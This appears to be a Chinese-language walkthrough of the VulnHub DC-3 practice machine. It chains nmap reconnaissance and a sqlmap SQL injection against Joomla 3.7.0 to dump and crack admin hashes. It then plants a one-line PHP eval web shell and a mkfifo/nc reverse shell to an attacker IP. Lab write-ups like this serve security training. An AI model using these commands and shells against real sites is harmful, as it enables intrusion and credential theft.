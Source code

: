 # DC 3

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-3,312/

![](./img/vulnhub-dc3-1.png)

## 知识点

## 信息收集

```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 172.16.8.0/24 # IP探测 扫描本地C段的网络端口信息
# 192.168.2.16
nmap -A -p- -T4 172.16.8.71
```

目标是joomla的网站


## 漏洞利用

```bash
joomscan --url http://172.16.8.71 # 看出Joomla 3.7.0
searchsploit Joomla 3.7.0  # 寻找框架漏洞
```

![](./img/vulnhub-dc3-2.png)

目标版本存在SQL注入漏洞

```
cp /usr/share/exploitdb/exploits/php/webapps/42033.txt  jommla.txt
cat  jommla.txt
```

![](./img/vulnhub-dc3-3.png)

```bash
sqlmap -u "http://172.16.8.71/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
![](./img/vulnhub-dc3-4.png)

```
sqlmap -u "http://172.16.8.71/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -T '#__users' -C name,password --dump
```

![](./img/vulnhub-dc3-5.png)

利用 johnny 暴力破解,获得密码为snoopy

```
echo "\$2y\$10\$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

登录后台`http://172.16.8.71/administrator/index.php`

![](./img/vulnhub-dc3-6.png)
![](./img/vulnhub-dc3-7.png)
![](./img/vulnhub-dc3-8.png)

新建test.php,插入木马一句话

```php
<?php eval($_POST[1]);?>
```

蚁剑连接
```
http://172.16.8.71/templates/beez3/test.php
```

![](./img/vulnhub-dc3-9.png)


反弹shell
```bash
nc -lnvp 1337
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.8.68 1337 >/tmp/f');?>
# 上面写到test文件里
```

![](./img/vulnhub-dc3-10.png)

可见权限是www-data，接下来是提权
## 参考链接
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC3-WalkThrough.md
- http://www.kxsy.work/2021/08/11/shen-tou-dc-3/